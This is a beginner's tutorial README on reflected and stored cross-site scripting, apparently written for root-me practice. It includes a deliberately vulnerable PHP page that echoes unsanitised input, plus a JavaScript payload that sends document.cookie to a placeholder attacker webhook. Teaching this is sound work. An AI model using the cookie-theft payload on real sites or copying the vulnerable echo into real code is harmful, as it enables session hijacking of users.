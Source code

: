 # InfoSec related notes 

I have started to write down notes on security related resources I've been scanning.
This resource might be helpful for people just getting started with Information Security and for future blog posts by me.  

## License

[![CC BY-NC-SA 4.0](https://i.creativecommons.org/l/by-nc-sa/4.0/88x31.png)](http://creativecommons.org/licenses/by-nc-sa/4.0/)  

This work is licensed under a [Creative Commons Attribution-NonCommercial-ShareAlike 4.0 International License](http://creativecommons.org/licenses/by-nc-sa/4.0/).  

## The Notes Themselves
> Influenced by LiveOverFlow's youtube channel, and some additional resources 
> Videos [here](https://www.youtube.com/channel/UClcE-kVhqyiHCcjYwcpfj9w)
> root-me platform [here](https://root-me.org)  

[comment]: <> (description will be added)  

### Web - XSS
Written on Sep 6 2019
> Influenced by a plethora of tasks on  [rootme](https://root-me.org/)
> and a LOT of googling  

Note that in order to play with XSS, you need to disable browser protection,
The following php codes must include:  
`
header("X-XSS-Protection: 0");
`  
You can read about this at [MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-XSS-Protection)
The HTTP X-XSS-Protection response header is a feature of Internet Explorer, Chrome and Safari that stops pages from loading when they detect reflected cross-site scripting (XSS) attacks. Although these protections are largely unnecessary in modern browsers when sites implement a strong Content-Security-Policy that disables the use of inline JavaScript ('unsafe-inline'), they can still provide protections for users of older web browsers that don't yet support CSP.
Albeit this will be futher explained later at this note.  

Also, you can find payloads to play with at [HTML5 Security Cheatsheet](http://html5sec.org/)   

#### 1. XSS - reflected  
   It is recommended that you try to read more about this in the docs section of root-me and try to solve a challenge for practice.  
   Initial code:  
   ```php
   <?php 
   // header included here
   // you will need a php server to run the example 
   // you can use the default php server by running
   // php -s localhost:80
   // read more about php built-in we server here
   // https://www.php.net/manual/en/features.commandline.webserver.php
   ?>
   
   <html>
    <body>
        <h1> <?php echo "Hello".$GET['try'] ?></h1>
        <!--
        This will output the concat result of Hello and what you supply as argument to the ?try parameter
        localhost:80/yourcode.php?try={payload later goes here}
        -->
    </body>
   </html>
   ```  
   supplying 
   ```javascript
   <script>console.log(1)</script>
   ``` 
   as input will be reflected in the webpage, thus the name **reflected Cross Site Scripting**  
   Of course writing to the console is boring, however this proves that we have code execution the context of the browser, an attacker may then leverage the full capabilities of JS with the ability to steal JS-accessible cookies which is usually the case for a session hijacking attack.  
   Read more about cookies and scoping [here](https://developer.mozilla.org/fr/docs/Web/API/Document/cookie)  
   Let's make our first payload. However, we will need some kind of session cookie. This can be done by  
   ```php
   <?php
   // Starting session
   // this will create cookies
   // you can them by viting the developer tools  
   session_start();
   ?>
   ```
   The session_start() function first checks to see if a session already exists by looking for the presence of a session ID. If it finds one, i.e. if the session is already started, it sets up the session variables and if doesn't, it starts a new session by creating a new session ID.  
   [official manual](https://www.php.net/manual/fr/function.session-start.php)  
   To our first test, let's try to steal the cookies:
   payload:
   ```javascript
   let element = document.createElement("img");
   element.setAttribute("src", "webhookurl/?"+document.cookie);
   document.body.appendChild(element);
   ```  
   The example above, gets the document cookie and appends it to the url of an attacker's controlled webhook.  
   _Note: Don't forget to urlencode_  
   for more advanced attack vectors try HTTP parameter pollution.  
   Read about that [here](https://www.owasp.org/index.php/4.8.1_Test_de_Reflected_Cross-Site_Scripting_(OTG-INPVAL-001))  
   Its time for you to go to rootme and play.  
   Additional for CTF creation: 
   **Check PhantomJS the scriptable headless browser, or selenium on python if you want to automate the behavior of a user**  

### 2. XSS - Stored 
   Written on Sep 6 2019 
   As You would have figured by now, for reflected XSS an attacker would have to send a URL with the payload in order to successfully perform the attack. This is not the case for stored XSS as it would trigger on every page which has the injected payload loaded from a file or a database. 
   This bug can be found on sections loading data dynamically from an external storage source, and the payload can be inserted in a signup/message/comment-like field.
   Same concepts for reflected XSS are inherited, however it is the client side equivalent to SQL injection, targeting users instead of the application itself.  
   ![alt text](https://www.imperva.com/learn/wp-content/uploads/sites/13/2019/01/sorted-XSS.png "image taken from impreva")  
   _Solve root-me tasks and if you have anything to add or any issues file a new issue_  


### [REFERENCES AND READS]
* [XSS Attacks - Impreva](https://www.imperva.com/learn/application-security/cross-site-scripting-xss-attacks/)  
* [X-XSS-Protection Header - MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-XSS-Protection/)  
* [CSP: Content Security Policy Header - MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/)  
* [XSS Injection - swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection/)  
